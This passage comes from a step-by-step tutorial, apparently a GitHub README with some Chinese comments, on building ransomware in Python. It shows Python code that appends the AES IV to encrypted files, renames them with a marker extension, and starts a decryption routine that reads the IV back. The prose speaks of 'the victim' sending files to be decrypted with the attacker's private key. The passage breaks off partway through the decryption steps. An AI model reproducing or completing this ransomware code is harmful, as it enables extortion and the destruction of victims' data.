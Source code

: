 8. Append the [AES IV (initialization vector)](https://en.wikipedia.org/wiki/Initialization_vector) to the end of the file.

```
input_file.seek(0, os.SEEK_END)
input_file.write(cipher_encrypt.iv)
```

9. **Rename the file** to identify it.       修改文件名后缀去识别是否已经加密

```python
input_file.close()
os.rename(file, file + "." + cryptoName)   #文件重命名
```

Note how we didn’t need to copy the full file, we just used the `seek()` method over the file object to navigate the bytes and make the process as quick as possible. This will also be used in the decryption function.

Also note that since we’re **writing both the AES IV and the encrypted key in the encrypted file, we don’t need any kind of txt file with a track of each encrypted file**. The victim can just send us any file, and as long as we have the private key used for that specific binary, we’ll be able to decrypt it.



## SymDecryptFile

This will be the main decryption function. This is how it’ll work:

1. Call the function with a privateKey and a file path as a parameter

```
def symDecryptFile(privateKey, file):
```

2. Define an decryption size (n bytes) for the file (equal to the one used in the encryption). In our example we used 1MB.

```
buffer_size = 1048576
```

3. Verify that the file is encrypted (with its extension).

```
if file.endswith("." + cryptoName):
        out_filename = file[:-(len(cryptoName) + 1)]
        print("Decrypting file: " + file)
    else:
        print('File is not encrypted')
        return
```

4. Open the file and read the AES IV (the last 16 bytes).

```
input_file = open(file, 'r+b')# Read in the iv
    input_file.seek(-16, os.SEEK_END)
    iv = input_file.read(16)
```
